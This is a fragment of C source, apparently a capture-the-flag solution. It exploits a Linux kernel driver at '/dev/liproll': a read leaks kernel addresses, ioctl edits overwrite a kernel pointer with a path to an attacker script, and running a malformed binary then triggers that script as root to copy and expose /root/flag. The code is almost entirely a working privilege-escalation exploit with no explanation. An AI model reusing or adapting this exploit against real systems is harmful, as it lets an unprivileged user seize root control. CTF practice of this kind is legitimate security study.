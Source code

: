 ```c
}

int delete()
{
	return ioctl(fd,0xD3C7F02,0);
}

int edit(struct node *nodep)
{
	return ioctl(fd,0xD3C7F01,nodep);
}


char data[0x300];
int main()
{
	signal(SIGSEGV, shell);
	save_stat();
	
	
	system("echo -ne '#!/bin/sh\n/bin/cp /root/flag /tmp/flag\n/bin/chmod 777 /tmp/flag\n' > /tmp/chflag");
	system("chmod +x /tmp/chflag");
	system("echo -ne '\xff\xff\xff\xff' > /tmp/aaa");
	system("chmod +x /tmp/aaa");
	
	printf("[+]open drive\n");
	fd = open("/dev/liproll",2);
	if (fd < 0) {
		printf("[-] bad open device\n");
		exit(-1);
	}
	
	struct node node1;
	node1.buf = malloc(0x1000);
	node1.len = 0x108;
	
	add();
	cho(0);
	read(fd,data,0x300);
	printf("[+] Leak address: \n");
	for(int i=0x20;i<0x300/8;i++){
		printf("0x%lx\n",*((size_t *)data+i));
	}
	
    *((size_t *)node1.buf+0x20)=*((size_t *)data+0x20+20)+0x12483e4;
	edit(&node1);
	strcpy(node1.buf,"/tmp/chflag");
	node1.len = 0x10;
	edit(&node1);

	system("/tmp/aaa");
	return 0;
}
```

